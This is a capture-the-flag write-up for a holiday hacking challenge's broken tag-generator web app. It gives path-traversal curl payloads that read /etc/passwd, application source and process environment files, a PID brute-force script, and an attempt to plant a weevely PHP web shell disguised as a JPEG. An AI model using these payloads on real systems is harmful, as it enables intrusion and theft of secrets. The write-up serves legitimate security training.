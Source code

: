 # Objective 8 – Broken Tag Generator #

## OBJECTIVE: ##
>Help Noel Boetie fix the Tag Generator in the Wrapping Room. What value is in the environment variable `GREETZ`? Talk to Holly Evergreen in the kitchen for help with this.
#  

## HINTS ##
<details>
  <summary>Hints provided for Objective 8</summary>
 
>-	**HOLLY EVERGREEN:** If you find a way to execute code blindly, I bet you can redirect to a file then download that file!
>-	**HOLLY EVERGREEN:** We might be able to find the problem if we can get source code!
>-	**HOLLY EVERGREEN:** Once you know the path to the file, we need a way to download it!
>-	**HOLLY EVERGREEN:** Can you figure out the path to the script? It's probably on error pages!
>-	**HOLLY EVERGREEN:** If you're having trouble seeing the code, watch out for the Content-Type! Your browser might be trying to help (badly)!
>-	**HOLLY EVERGREEN:** Is there an endpoint that will print arbitrary files?
>-	**HOLLY EVERGREEN:** I'm sure there's a vulnerability in the source somewhere... surely Jack wouldn't leave their mark?
>-	**HOLLY EVERGREEN:** Remember, the processing happens in the background so you might need to wait a bit after exploiting but before grabbing the output!


</details>

#  
## PROCEDURE: ##
Holly Evergreen and Noel Boetie both seem to think the problem is related to the **file upload** feature of the tag generator – so let’s start by looking at that.

If we upload an image and look at the network events in the Firefox console, we see that the image file is renamed and is stored at a URI that looks similar to ``https://tag-generator.kringlecastle.com/image?id=f3870e1f-7f10-49c1-a84f-1a11c7ed71b1.jpg``  This looks like it might be vulnerable to LFI?

Sure enough – it is! I try ``# curl https://tag-generator.kringlecastle.com/image?id=../../../../../../../../etc/passwd`` and I have the contents of the `passwd` file – that must be a step in the right direction 😊
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2020/assets/60655500/5bba3621-6c27-4ea4-bbdc-69da90a9d15a)

If I try to upload a script file (eg. php) to the tag generator I get an error message:
```
Error in /app/lib/app.rb: Unsupported file type: /tmp/RackMultipart20201231-1-1m1x12e.php 
```

So this tells me that the uploaded files are being processed by a Ruby application called `app.rb` stored in the `/app/lib` sub-directory
Ok... so let’s try to curl into the script:
```console
$ curl https://tag-generator.kringlecastle.com/image?id=../../../../../../../../app/lib/app.rb
```
We now have accss to the script’s code!

Looking at the code it looks like it’s actually intended to support uploading and extracting zip files so maybe we can upload a payload as zip?  It also looks like the script looks for a file with a .jpg, .jpeg or .png extension once it is uncompressed.

For some reason the check for invalid characters in the filename is commented out – this is probably a hint.
I also note that extracted files are being saved to `#{ TMP_FOLDER }/#{ entry.name }` from the declarations at the start of the Ruby script I can also tell that the `TMP_FOLDER` is referring to the `/tmp/ direcotry`.

Google tells us that Ruby environment variables are stored in `/proc/PID/environ` – but how do I find out the PID?  I’m sure there’s a smart way to go about this but I decided to bruteforce it usign a quick bash script
```bash
#!/bin/bash
for ((i=0; i<=32768; i++))
do
  echo $i
  curl https://tag-generator.kringlecastle.com/image?id=../../../../proc/$i/environ
done
```

I ran the script and piped the output tot a text file and left for a five hour long New Year’s Day lunch
```console
$ ./tagscript.sh >> tagoutput.txt
```

On my return I looked at the contents of `tagoutput.txt` and realise that I hit a match with the 7th try and that PIDs `7` to `26` all gave valid outputs  (so maybe brute force was the right way to go in this case after all).
```console
PATH=/usr/local/bundle/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binHOSTNAME=cbf2810b7573RUBY_MAJOR=2.7RUBY_VERSION=2.7.0RUBY_DOWNLOAD_SHA256=27d350a52a02b53034ca0794efe518667d558f152656c2baaf08f3d0c8b02343GEM_HOME=/usr/local/bundleBUNDLE_SILENCE_ROOT_WARNING=1BUNDLE_APP_CONFIG=/usr/local/bundleAPP_HOME=/appPORT=4141HOST=0.0.0.0GREETZ=JackFrostWasHereHOME=/home/app8
```
And there it is – plain as day:  **`GREETZ=JackFrostWasHere`**

### Note ###
I have a hunch that this webapp can also be compromised by remote code execution (RCE).  So I create a payload in `weevely` ending with a .jpg extension:
```console
$ weevely generate pwnage /root/uploadmeplease.jpg
```
I compress this ‘.jpg’ as a zip file and upload it to the tag generator.

Now I should be able to find `uploadmeplease.jpg` in the `/tmp/` directory.  And sure enough, running ``curl https://tag-generator.kringlecastle.com/image?id=../tmp/uploadmeplease.jpg`` shows me the php script – muahahaha.

Although I thought it would be plain sailing from here on out, unfortunately I got stuck – although `curl` requests show me the contents of the php script, normal https requests in a browsers return a 404 error and so does trying to establish a weevely session.

I must be missing something really simple here.
